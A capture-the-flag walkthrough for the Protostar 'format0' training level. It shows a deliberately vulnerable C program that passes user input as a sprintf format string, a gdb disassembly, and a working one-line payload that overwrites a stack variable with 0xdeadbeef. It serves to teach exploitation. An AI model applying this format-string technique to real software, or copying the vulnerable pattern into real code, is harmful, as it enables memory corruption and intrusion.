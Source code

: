 #### Protostar Format0 

##### About
This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.

###### Hints
* This level should be done in less than 10 bytes of input.
* “Exploiting format string vulnerabilities”
  
This level is at /opt/protostar/bin/format0

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

Notice that the input should be less than 10 bytes, we should use format string to overflow the buffer and write the target.

##### Solution
```
$ gdb format0
......
(gdb) disas vuln
Dump of assembler code for function vuln:
0x080483f4 <+0>:    push   %ebp
0x080483f5 <+1>:    mov    %esp,%ebp
0x080483f7 <+3>:    sub    $0x68,%esp
0x080483fa <+6>:    movl   $0x0,-0xc(%ebp)
0x08048401 <+13>:   mov    0x8(%ebp),%eax
0x08048404 <+16>:   mov    %eax,0x4(%esp)
0x08048408 <+20>:   lea    -0x4c(%ebp),%eax           ; buffer
0x0804840b <+23>:   mov    %eax,(%esp)
0x0804840e <+26>:   call   0x8048300 <sprintf@plt>    ; overflow
0x08048413 <+31>:   mov    -0xc(%ebp),%eax            ; variable
0x08048416 <+34>:   cmp    $0xdeadbeef,%eax           ; check value
0x0804841b <+39>:   jne    0x8048429 <vuln+53>
0x0804841d <+41>:   mov    $0x8048510,(%esp)
0x08048424 <+48>:   call   0x8048330 <puts@plt>
0x08048429 <+53>:   leave
0x0804842a <+54>:   ret
End of assembler dump.
(gdb) quit

$ python -c "print '%064d\xef\xbe\xad\xde'" | xargs ./format0
you have hit the target correctly :)
```

##### Reference
<https://thesprawl.org/research/exploit-exercises-protostar-format/#format-0>  
<http://louisrli.github.io/blog/2012/08/29/protostar-format0/>
